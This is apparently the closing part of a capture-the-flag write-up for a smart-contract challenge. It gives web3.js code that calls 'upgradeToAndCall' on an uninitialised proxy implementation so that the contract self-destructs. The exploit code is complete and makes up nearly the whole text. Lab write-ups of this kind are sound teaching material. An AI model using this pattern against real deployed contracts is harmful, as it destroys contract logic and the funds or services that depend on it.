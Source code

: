 ```js
const destructData= web3.eth.abi.encodeFunctionSignature('destruct()');

const data= web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    },{
        type: 'bytes',
        name: 'data'
    }]
}, [bombEngineAddress,destructData]);

await web3.eth.sendTransaction({to:engineAddress,from:player,data:data})

// You can do a random call to the Engine contract it will revert because it's gone !
```

Challenge solved ✅

